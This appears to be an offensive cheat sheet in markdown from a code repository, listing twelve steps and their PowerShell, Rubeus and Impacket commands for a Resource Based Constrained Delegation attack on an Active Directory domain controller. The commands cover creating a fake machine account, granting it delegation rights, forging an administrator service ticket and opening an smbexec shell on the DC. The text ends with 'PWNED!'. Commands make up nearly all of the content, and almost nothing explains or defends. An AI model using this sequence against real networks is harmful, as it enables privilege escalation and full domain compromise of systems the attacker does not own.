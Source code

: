 ## Resource Based Constrained Delegation (RBCD)

## TOOLS: Bloodhound, Powermad, Powerview, Kekeo, Impacket, AD powershell module

### Requirements: Your current user belongs to a group that has write access/generic all privileges on the DC.

### STEPS:

#### 1) Transfer rubeus and powermad on target machine

#### 2) Import Powermad

    Import-Module ./powermad.ps1 (Import powermad)

#### 3) Import ActiveDirectory Module

    Import-Module ActiveDirectory

#### 4) Set Variables

    Set-Variable -Name "PwnPC" -Value "PWN01"

#### 

    Set-Variable -Name "targetComputer" -Value "DC" 

#### 5) With Powermad, add the new fake computer object to AD

    New-MachineAccount -MachineAccount (Get-Variable -Name "PwnPC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose ( With powermad, add the new fake computer object to AD)

#### 6) With built-in AD modules, give the new fake computer object the Constrained Delegation privilege

    Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "PwnPC").Value + '$') 

#### 7) With built-in AD modules, check that the last command worked

    Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount 

#### 8) With Rubeus, generate the new fake computer object password hashes.

    .\rubeus.exe hash /password:123456 /user:PWN01$ /domain:DOMAIN.LOCAL 

#### 9) Using the getST impacket module, generate a ccached TGT and used KRB5CCNAME pass the ccache file for the requested service

    Impacket-getST DOMAIN.LOCAL/PWN01 -dc-ip DC.DOMAIN.LOCAL -impersonate administrator -spn http://DC.DOMAIN.LOCAL -aesKey GENERATED_AESKEY 

#### 10) Set local variable of KRB5CCNAME to pass the ccache TGT file for the requested service

    export KRB5CCNAME=administrator.ccache 

#### 11) Use smbexec impacket module to connect with the TGT we just made to the server as the user administrator over SMB

    impacket-smbexec DOMAIN.LOCAL/administrator@DC.DOMAIN.LOCAL -no-pass -k 

#### 12) PWNED!
